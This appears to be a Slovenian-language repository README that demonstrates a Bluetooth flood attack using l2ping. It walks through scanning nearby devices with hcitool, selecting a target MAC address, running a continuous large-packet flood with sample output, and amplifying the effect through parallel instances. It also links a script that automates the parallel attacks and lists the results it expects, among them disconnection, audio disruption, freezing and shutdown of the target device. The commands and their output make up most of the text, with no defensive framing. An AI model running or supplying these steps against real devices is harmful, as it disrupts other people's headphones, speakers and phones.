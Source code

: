 ### Demonstracija l2ping flood napada

Ta demonstracija prikazuje, kako se lahko zlorabi orodje `l2ping` za izvajanje **Bluetooth flood napada** na ciljno napravo.

#### 1. Iskanje Bluetooth naprav v bližini

Za začetek poiščemo naprave v dosegu Bluetooth povezave z ukazom `hcitool scan`:

```bash
$ hcitool scan
Scanning ...
        41:42:7B:CB:AC:9E       SBL TW6 C2
        44:EA:30:60:EA:58       Galaxy Buds Pro (EA58)
        F0:CD:31:60:0F:D5       Urban S22
        90:7A:58:E9:9A:BB       WH-XB910N
```


#### 2. Shranjevanje MAC naslova ciljne naprave

Izberemo želeno napravo in njen MAC naslov shranimo v spremenljivko za lažji dostop:

```bash
$ SPEAKER_MAC=41:42:7B:CB:AC:9E
```

---

#### 3. Zagon flood napada z `l2ping`

Z ukazom `l2ping` začnemo pošiljati velike pakete z visoko frekvenco na ciljno napravo:

```bash
$ sudo l2ping -s 600 -f $SPEAKER_MAC
Ping: 41:42:7B:CB:AC:9E from 64:79:F0:53:DD:37 (data size 600) ...
600 bytes from 41:42:7B:CB:AC:9E id 0 time 27.76ms
600 bytes from 41:42:7B:CB:AC:9E id 1 time 40.01ms
600 bytes from 41:42:7B:CB:AC:9E id 2 time 36.01ms
...
```

> Ta ukaz bo neprekinjeno pošiljal 600-bajtne pakete, dokler ga ne prekinemo s `Ctrl + C`. Največja dovoljena velikost paketa je odvisna tudi od naprave. Če vam ukaz sprva ne dela, poskusite prvo brez zastavice `-s`

---

#### 4. Povečevanje učinka (opcijsko)

Za večji vpliv lahko istočasno zaženemo `l2ping` iz več terminalskih oken oz. instanc. To močno obremeni ciljno napravo in lahko privede do:

* začasne prekinitve povezave,
* zvočnih motenj (pri slušalkah),
* zamrzovanja oz. počasnosti delovanja naprave,
* izklop naprave.

Za avtomatizacijo več vzporednih napadov si oglej skripto:

📂 [`stress_testing_bt.py`](./stress_testing_bt.py)
